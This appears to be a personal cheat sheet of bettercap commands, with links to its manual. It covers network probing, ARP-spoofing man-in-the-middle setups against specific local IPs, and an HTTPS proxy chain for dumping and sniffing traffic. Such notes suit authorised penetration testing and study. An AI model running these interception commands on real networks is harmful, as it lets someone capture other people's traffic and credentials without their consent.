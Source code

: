 Bettercap
=======

Source: https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets

Good manual for bettercap:

https://www.bettercap.org/modules/ethernet/
https://www.bettercap.org/modules/wifi/
https://www.bettercap.org/modules/ble/

https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets

To bind to a specific interface 
    bettercap -iface tun0



To get help on modules

	help module_name

Activated modules
	
	active
	
to get the value of a variable or parameter
	
	get parameter_name
	
	
The variables of the modules will appear too.

## Mapping the network with bettercap

net.probe on

**OBS: Do not forget to stop the probes, because bettercap continue sending  probes in backgroud **

net.probe off

## man in the middle with bettercap

bettercap -eval "set arp.spoof.targets 192.168.1.5,192.168.1.254"

set arp.spoof.fullduplex true

* if is internal (local network attack)
Set arp.spoof.internal to true. Then all the hosts on the local ethernet will be arp spoofed.

set arp.spoof.internal true
arp.spoof on

![qownnotes-media-sHOjmp](file://media/10589.png)


## SSL sniffing with bettercap

	bettercap -eval "set https.proxy.script http-req-dump.js; https.proxy on; set arp.spoof.targets 192.168.1.254; set arp.spoof.fullduplex true; arp.spoof on"
	